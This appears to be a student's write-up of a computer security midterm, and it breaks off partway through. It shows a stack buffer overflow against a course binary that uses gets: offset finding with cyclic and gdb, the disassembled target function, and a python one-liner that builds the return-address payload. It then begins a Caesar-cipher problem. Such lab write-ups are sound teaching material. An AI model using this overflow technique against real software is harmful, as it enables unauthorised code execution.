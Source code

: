# Midterm

## Problem 1
Problem 1 is that we get a binary file and we need to exploit the binary to get some secret key.

### Solution
Solved on Fedora 36 with kernel 5.19.7-200.fc36.x86_64 and gcc 12.2.1 20220819 (Red Hat 12.2.1-1).

Since we are supposed to know nothing about the binary file. We can use ```strings assignment``` and we can check if there are any unsafe functions in use, and we can also check if there are any interesting strings in the binary file.
As a matter of fact we can see that we are using ```gets``` to get input from the user, that function can be exploited. Small sidenote we can see the encoded string also.

Now we need to find out how big the buffer is that ```gets``` is using, to do that we can use the helpful command called ```cyclic``` this command creates a string that is a uniqe pattern at every space. We can try with 500 characters and then we check what the RBP is. For example if we use ```cyclic -n 4 500``` and input that into the binary file and we check the base pointer and we can see its ```0x63616170``` (we only take the first 4 bytes since n=4) and then we run ```cyclic -n 4 -l 0x63616170``` and we get ```260```.

Also to confirm that the buffer is something like 260 bytes we can check the stack with ```gdb``` and we can confirm that the bufferoverflow happens around 260 bytes since we can see that the stack is overflowing by using the command ```x/100x $rsp-200```.

After we overwrite the base pointer the next in line is the instruction pointer. So some trial and error might be needed. 

After some trial and error i have found out that we need 256 bytes to get to the base pointer and then 8 more to fully overwrite the base pointer, the next 8 bytes are the instruction pointer

Now we need to find the address of the print_secret_message function. We can do that by using ```gdb```
as shown below

```
(gdb) disass print_secret_message 
Dump of assembler code for function print_secret_message:
   0x000000000040123e <+0>:	push   %rbp
   0x000000000040123f <+1>:	mov    %rsp,%rbp
   0x0000000000401242 <+4>:	mov    0x2e0f(%rip),%rax        # 0x404058 <secret_message>
   0x0000000000401249 <+11>:	mov    %rax,%rdi
   0x000000000040124c <+14>:	call   0x401030 <puts@plt>
   0x0000000000401251 <+19>:	mov    $0x0,%edi
   0x0000000000401256 <+24>:	call   0x401080 <exit@plt>
End of assembler dump.
(gdb) quit
```
Here above we can see that the adress is ```0x000000000040123e```. Now we need to create a payload that fills the buffer and adds this address to the end of the payload. We can do that with the following python snippet
```
python3 -c "print('\x41'*256 + '\x42'*8 + '\x3e\x12\x40\x00\x00\x00\x00')" > payload 
```
Now if we try to run program within gdb with the payload we can see that we get the secret message.
```
(gdb) r < payload
Starting program: /home/star/SCHOOL/computer_security/midterm/assignment1 < payload
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
Enter the secret passphrase that will decrypt the secret message: OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ
[Inferior 1 (process 59339) exited normally]
(gdb) 
```
Running the program without gdb we can see that we get the same result.
```
./assignment1 < payload                                                        
Enter the secret passphrase that will decrypt the secret message: OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ
```
The secret message is ```OLZLJYLATLZZHNLPZHNYLLHISLULZZLZ```

## Problem 2
Now that we have the secret message we need to decrypt it, All we know is that this is a ceaser cipher. Our decrypting program should be able to pick out the correct solutions from many. So essentialy it needs to be able to decrypt all ceasar cipers and then pick out the correct one.

### Solution
We can use the following python script to decrypt any ceaser cipher:
